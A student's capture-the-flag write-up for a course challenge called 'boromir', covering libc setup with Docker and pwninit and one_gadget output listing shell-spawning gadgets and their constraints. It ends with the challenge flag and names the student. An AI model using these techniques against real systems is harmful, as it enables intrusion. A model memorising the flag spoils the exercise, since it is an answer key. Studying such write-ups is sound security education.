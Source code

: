 # Player
- Tim Niklas Gruel 1080 2021 2831
- username: realy0sh1

# Writeup: "boromir"
- story:  There is a legend of the One Gadget to pwn them all. Could you help the Fellowship of the Ring find their way to Mordor by using this One Gadget? Be careful, some men have lost their minds to the ease of using the One Gadget, but there are constraints you need to be aware of to use it properly.
- Hint: You can use the one_gadget tool to search for One Gadgets in libc.
- Hint: One does not simply use a One Gadget, you may need to adjust your buffer to make sure the One Gadget finds writable memory. The vmmap command in pwndbg (or info proc mappings in plain GDB) can help you with this.
- Hint: Remember to use the correct offset to compute the address of libc from the leak.

## Setup
- setup correct libc
```
docker compose up
docker ps
docker exec -it d384ee4cd127 /bin/bash
cd /lib/x86_64-linux-gnu
docker cp d384ee4cd127:/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2 /home/timniklas/Code/software_security_1/homework_03/14_boromir
pwninit
```
- verify that it worked
```
LD_DEBUG=libs ./vuln_patched
```

## Exploit
- remove local objdump
```
sudo mv /usr/local/bin/objdump{,-local}
```
- use onegadget
```
one_gadget ./libc.so.6
```
```
0x4c139 posix_spawn(rsp+0xc, "/bin/sh", 0, rbx, rsp+0x50, environ)
constraints:
  address rsp+0x60 is writable
  rsp & 0xf == 0
  rax == NULL || {"sh", rax, r12, NULL} is a valid argv
  rbx == NULL || (u16)[rbx] == NULL

0x4c140 posix_spawn(rsp+0xc, "/bin/sh", 0, rbx, rsp+0x50, environ)
constraints:
  address rsp+0x60 is writable
  rsp & 0xf == 0
  rcx == NULL || {rcx, rax, r12, NULL} is a valid argv
  rbx == NULL || (u16)[rbx] == NULL

0xd509f execve("/bin/sh", rbp-0x40, r13)
constraints:
  address rbp-0x38 is writable
  rdi == NULL || {"/bin/sh", rdi, NULL} is a valid argv
  [r13] == NULL || r13 == NULL || r13 is a valid envp
```
- PIE is disabled => we can write into well known bss.
-flag
```
softsec{rEXoYZcuTCJ1bAg4BbcowoJZLDrj94jGponxA8fWpy5p5aathB99zFhTLs6BK1Ij}
```